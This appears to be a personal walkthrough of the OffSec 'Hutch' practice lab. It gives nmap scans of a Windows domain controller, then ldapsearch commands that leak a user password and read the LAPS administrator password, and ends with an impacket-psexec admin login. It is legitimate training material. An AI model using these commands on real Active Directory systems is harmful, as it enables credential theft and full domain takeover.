







# Network Enumeration

```bash
PORT      STATE SERVICE         
53/tcp    open  domain          
80/tcp    open  http            
88/tcp    open  kerberos-sec    
135/tcp   open  msrpc           
139/tcp   open  netbios-ssn     
389/tcp   open  ldap            
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
593/tcp   open  http-rpc-epmap  
636/tcp   open  ldapssl         
3268/tcp  open  globalcatLDAP   
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman           
9389/tcp  open  adws            

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-webdav-scan: 
|   Server Date: Sat, 19 Aug 2023 13:33:16 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/10.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-19 13:32:34Z)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf       .NET Message Framing
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```


# Port enumeration

## Port 80

Just windows IIS welcome page.



## Port 5985



404 Not find.


## Port 53 domain, 389 ldap

Use `ldapsearch` to find if any information provided.

```bash
┌──(aaron㉿aaron)-[~/…/pg/huntch/kerbrute-master/dist]                                                                           
└─$ ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.196.122" "(objectclass=*)" 
```



```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.196.122" "(objectclass=*)" 
```




Get user `fmcsorley` password is CrabSharkJellyfish192. Test with `crackmapexec` if that's correct.



Use the cred to test `ldapsearch` again

```bash
ldapsearch -v -c -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -H ldap://192.168.196.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

Get the administrator password is `79ZwzC}0u66BOt`.

 [Refer](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)



Then use administrator creds to login with `impacket-psexec`.

```bash
┌──(aaron㉿aaron)-[~/…/pg/huntch/kerbrute-master/dist]
└─$ impacket-psexec huttch.offsec/administrator:'79ZwzC}0u66BOt'@192.168.196.122
```

